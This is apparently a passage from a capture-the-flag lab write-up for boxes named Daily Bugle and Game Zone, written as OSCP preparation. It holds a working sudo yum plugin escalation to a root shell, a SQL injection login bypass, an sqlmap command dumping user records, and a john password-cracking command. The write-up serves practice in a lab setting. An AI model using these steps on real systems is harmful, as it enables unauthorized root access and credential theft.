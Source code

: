 Examine the files that can be run as root: `sudo -l`:
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

**Spawn interactive root shell by loading a custom plugin** ([source](https://gtfobins.github.io/gtfobins/yum/)):

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

### Day 5 - Making some progress

#### Game Zone

We login to the website by using SQL injection on the login form:
```
admin: ' OR 1=1 -- -
password: <empty>
```

Once logged in we can save the search request into a test file and use sqlmap to speed things up (of course we cannot use it in OSCP):
`sqlmap -r request.txt -D db -T users --dump --threads=8 --batch`

Next we use john to crack the password hash just found:
`john hash.txt --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt`

and can use it to login via SSH: `ssh agent47@target`.

To enumerate local sockets we run: `ss -tulpn`.
